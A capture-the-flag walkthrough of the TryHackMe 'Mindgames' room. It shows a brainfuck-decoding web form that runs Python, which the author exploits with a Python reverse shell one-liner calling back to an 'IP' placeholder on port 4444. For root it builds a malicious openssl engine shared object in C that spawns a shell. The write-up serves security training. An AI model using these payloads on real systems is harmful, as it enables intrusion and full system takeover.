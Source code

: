 # MindGames

“Just a terrible idea...”

A detailed walkthrough on the [TryHackMe](https://tryhackme.com) room [Mindgames](https://tryhackme.com/room/mindgames) by 3J0SKA

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled.png)

## 1- Scanning And Enumerating

Now first we will scan the machine to find any ports. 

For scanning I will be using rustscan. 

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%201.png)

Here we found 2 ports, one running on port 22 (SSH) and the other one running on port 80 (HTTP).

Lets check out the HTTP page now! 

By looking at the HTTP page we can see some decoding happening.

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%202.png)

And then we also have a input which can be used to decode the above decoding. But we don’t know the decoding yet.

After researching for a while, I got to know that this decoding is called `brainfuck` so I copied this `Hello, World` code and decoded it.

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%203.png)

After decoding this, I found out that the input field actually takes the `brainfuck` decoding and decodes it, after decoding it executes are code.

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%204.png)

And here in this case the code is written in python, So to make sure we can actually execute command on the system using python I made a simple script which executes the command `ls` on the system. 

Here’s the script : 

```python
import os;os.system("ls")
```

So here we have our script, but before we can execute it we have to covert it to `brainfuck` encoding. Here’s what I got!

So let’s execute the code.

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%205.png)

Here you go! It works and we can execute python scripts on the system. Now the obvious thing to do is to execute a reverse shell on the system!

Here is the code I used to do that : 

```python
import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```

You have to make sure that the script doesn’t use any libraries that can’t be used without installing.

And after executing the code you should have a reverse connect! 

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%206.png)

Now as we have the foothold of the system, lets get the `user.txt` file!

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%207.png)

![https://c.tenor.com/TPXMriXwLD4AAAAC/lets-go-the-rock.gif](https://c.tenor.com/TPXMriXwLD4AAAAC/lets-go-the-rock.gif)

## 2- Privilege Escalation!

Now we have a foothold on the system and we also got our user.txt flag, now its time to get `root.txt`

I tried all of basic privilege escalation techniques like sudo files or suid, but could do anything with them. Now we will use `[linpeas.sh](http://linpeas.sh)` to get more information.

First we have to get the file on the system, to do that lets set up a Python server.

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%208.png)

Now we can `wget` the file. 

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%209.png)

Now you can execute the file, after giving it the permissions using `chmod`. 

So after sometime I found this in the linpeas scan.

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%2010.png)

So I immediately searched for this on [`https://gtfobins.github.io`](https://gtfobins.github.io/) and found this. 

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%2011.png)

I couldn’t understand what this command was doing and it was also throwing a error, so I decided to find something else for the privilege escalation. 

After searching for it, I came across this pull request on github : [https://github.com/GTFOBins/GTFOBins.github.io/pull/125#issuecomment-612586734](https://github.com/GTFOBins/GTFOBins.github.io/pull/125#issuecomment-612586734)

And it had this C code : 

```c
#include <unistd.h>

__attribute__((constructor))
static void init() {
    execl("/bin/sh", "sh", NULL);
}
```

Now save this in a file and compile it using `gcc` on your system and then transfer the file to the victim machine. 

Make sure you save your file with the name `openssl.c` or it might not work

Here are the commands to execute : 

```bash
gcc -fPIC -o openssl.o -c openssl.c
gcc -shared -o openssl.so openssl.o
```

Now you should have a file named `[open.so](http://open.so)` that you have to send to the machine using wget.

After that you have to give permissions to the file. 

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%2012.png)

And now you can execute the script!

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%2013.png)

Hurray!!! We got the root privileges! 

Now you can find the flag at `/root/root.txt`

![Untitled](MindGames%20735347bab3804dfe9220e0c24586ed04/Untitled%2014.png)

![https://c.tenor.com/HJ0iSKwIG28AAAAC/yes-baby.gif](https://c.tenor.com/HJ0iSKwIG28AAAAC/yes-baby.gif)
